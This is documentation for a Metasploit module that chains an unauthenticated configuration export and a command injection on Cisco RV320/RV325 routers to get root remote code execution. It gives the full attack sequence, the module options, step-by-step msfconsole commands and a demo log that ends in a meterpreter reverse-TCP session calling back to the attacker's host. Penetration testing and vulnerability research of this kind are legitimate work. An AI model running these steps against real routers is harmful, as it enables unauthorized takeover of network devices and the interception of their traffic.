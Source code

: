 ## Introduction
This module automatically exploits two vulnerabilities to create an effectively
unauthenticated remote code execution on RV320 and RV325 routers.

The module will perform the following steps:

First the module will download the configuration. Then it will extract the MD5
password hash for the web interface user. The MD5 password hash is directly
accepted during login instead of the plain text password. With the MD5 hash the
module will authenticate to the web interface of the router and get a valid
authentication cookie. 

The second step is using the authentication cookie to
send an authenticated request to the web interface which exploits a command
injection vulnerability. The injection is limited to ~50 characters. Therefore,
the module uses a web server to stage a shell payload for the MIPS64
architecture of the router. Depending on the payload the module will result in
a shell or meterpreter session.

## Vulnerable Application:

Cisco Small Business Routers RV320 and RV325 with firmware versions between
1.4.2.15 and 14.2.20.

Link to vulnerable Firmware Version:
https://software.cisco.com/download/home/284005929/type/282465789/release/1.4.2.20?i=!pp


Links to Advisories:
Part 1 of the exploit (configuration download):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-002/-cisco-rv320-unauthenticated-configuration-export

Part 2 of the exploit (command injection in web interface):
https://www.redteam-pentesting.de/en/advisories/rt-sa-2018-004/-cisco-rv320-command-injection

Advisories by vendor:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-inject

## Options

**RHOSTS**

Configure the remote vulnerable system.

**RPORT**

Configure the TCP port of the HTTP/HTTPS management web interface.

**USE_SSL**

This flag controls whether the remote management web interface is accessible
via HTTPS or not. Should be false for HTTP and true for HTTPS.

**PAYLOAD**

Configure the Metasploit payload that you want to stage. Must be for MIPS64
arch.  Set payload Options accordingly.

**SRVHOST**

The module stages the payload via a web server. This is the binding interface
IP. Default can be set to 0.0.0.0. 

**HTTPDelay**

This configures how long the module should wait for the incoming HTTP
connection to the HTTP stager.

## Verification Steps

1. Have exploitable RV320 or RV325 router (exampe IP: 192.168.1.1):
2. Start `msfconsole`:
3. Do:  ```use exploit/linux/http/cisco_rv32x_rce```
4. Do: ```set RHOSTS 192.168.1.1```
5. Do: ```set payload linux/mips64/meterpreter_reverse_tcp``` (Set the MIPS64 payload you want to use)
6. Do: ```set LHOST 192.168.1.2``` (Setting your own IP here, example: 192.168.1.2)
7. Do: ```set RPORT 8007``` (Set the remote Port on which the router web interface is accessible)
8. Do: ```run```
9. Gives you a privileged (uid=0) shell or in the example a meterpreter session.


## Scenarios

Exploiting a vulnerable RV320 router with publicly accessible HTTPS web
interface on TCP port 443: 
```
msf5 exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
msf5 exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
msf5 exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
msf5 exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
msf5 exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
msf5 exploit(linux/http/cisco_rv32x_rce) > run
```

Demo example output for the module:
```
msf5 > use exploit/linux/http/cisco_rv32x_rce 
msf5 exploit(linux/http/cisco_rv32x_rce) > show options

Module options (exploit/linux/http/cisco_rv32x_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  15               yes       Time that the HTTP Server will wait for the payload request
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      8007             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   URIPATH    /                yes       The path for the stager. Keep set to default! (We are limited to 50 chars for the initial command.)
   USE_SSL    false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   LINUX MIPS64

msf5 exploit(linux/http/cisco_rv32x_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 exploit(linux/http/cisco_rv32x_rce) > set payload linux/mips64/meterpreter_reverse_tcp
payload => linux/mips64/meterpreter_reverse_tcp
msf5 exploit(linux/http/cisco_rv32x_rce) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
msf5 exploit(linux/http/cisco_rv32x_rce) > set RPORT 443
RPORT => 443
msf5 exploit(linux/http/cisco_rv32x_rce) > set USE_SSL true
USE_SSL => true
msf5 exploit(linux/http/cisco_rv32x_rce) > run

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.2:8080/
[*] Server started.
[*] Downloading configuration from 192.168.1.1:443
[*] Using SSL connection to router.
[*] Successfully downloaded config
[*] Got MD5-Hash: dfead10390e560aea745ccba53e044ed
[*] Loging in as user cisco using password hash.
[*] Using default auth_key 1964300002
[*] Successfully logged in as user cisco.
[*] Got cookies: mlap=RGVmYXVsdDE6Ojo6Y2lzY28=;
[*] Sending payload. Staging via http://192.168.1.2:8080/.
[*] 192.168.1.1:443 - Payload request received: /
[*] Waiting for stager connection timed out. Try increasing the delay.
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:48580) at 2019-03-14 10:00:00 +0100
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=99, euid=0, egid=99
```
